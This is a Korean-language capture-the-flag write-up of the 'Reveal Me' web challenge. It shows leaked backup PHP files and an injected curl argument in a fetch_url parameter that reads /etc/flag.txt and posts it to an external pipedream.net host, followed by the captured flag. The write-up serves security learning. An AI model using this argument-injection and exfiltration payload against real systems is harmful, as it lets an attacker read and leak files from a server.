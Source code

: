 # Reveal Me
```
Everything is in front of you.

http://34.72.61.239/

Note: Flag is located in etc directory.

Author : x3rz
```
front? frontend? 프론트엔드에 모든게 있다?

문제 사이트에 접속하면 로그인 사이트밖에 나오지 않는데, 정말 이것저것 시도해봤지만 어떻게 진행해야 할지 감이 잡히지 않았다. 그러다가 상수형이 `robots.txt`에 백업 파일 힌트가 있다고 알려주셔서 확인해보니 `/backup/index.php.bak`이 비허용 되어있음을 알 수 있었다.

## /backup/index.php.bak
```php
<?php
error_reporting(0);
session_start(); 

if (isset($_POST['submit'])) {
  $pass = "REDACTED";
    extract($_POST);
  if (!empty($password)) {
      if ($password === $pass) {
      $_SESSION['last_page'] = "REDACTED";
          header('Location: fetch_url.php');
     }
  else{
    die("You have entered wrong password\n Please contact Admin for your password.");
  }
  }
}
?>
```
코드를 대충 훑어보면 `passwrod`에 대한 조건이 만족하면 `last_page`를 설정하고, `fetch_url.php`로 넘어간다. 혹시나 하는 마음에 이 파일도 백업파일이 있나 확인해보니 접근 가능했다.

## /backup/fetch_url.php
```php
if (isset($_GET['url'])) {
  $url = $_GET['url'];
  if(preg_match('/-F|-T|index.php/i',$url)) die("Use of Flags are banned.\n Dont try to exploit.\n Your malicious intent will be recorded.");
  system(escapeshellcmd('curl -l '.$url)); 
}
```
이 페이지는 `url` 매개변수를 통해 `system` 함수를 사용할 수 있다. 기본적으로 `curl`을 이용할 수 있도록 해놓았다. 다른 명령 실행을 방지하고자 `escapeshellcmd`함수를 사용했고, `preg_match`를 통해 파일을 전송할 수 있는 옵션 값을 막아두었다.

## command injection
`/etc/flag.txt`를 명령을 통해 어떻게든 밖으로 빼내야 했기 때문에 파일을 포함한 request를 생성하는 것을 목적으로 했다.
```
http://34.72.61.239/fetch_url.php?url=-d+@/etc/flag.txt+"https://enbux3dy62rav.x.pipedream.net"
```
상수형의 아이디어로 `@/etc/flag.txt` 와 같은 형태로 파일을 불러들여 `-d` 옵션을 통해 플래그를 읽어낼 수 있었다. 

## flag
```
wormcon{3xtr4ct_4xtr4ct3d_my_fl4g_w14e14e}
```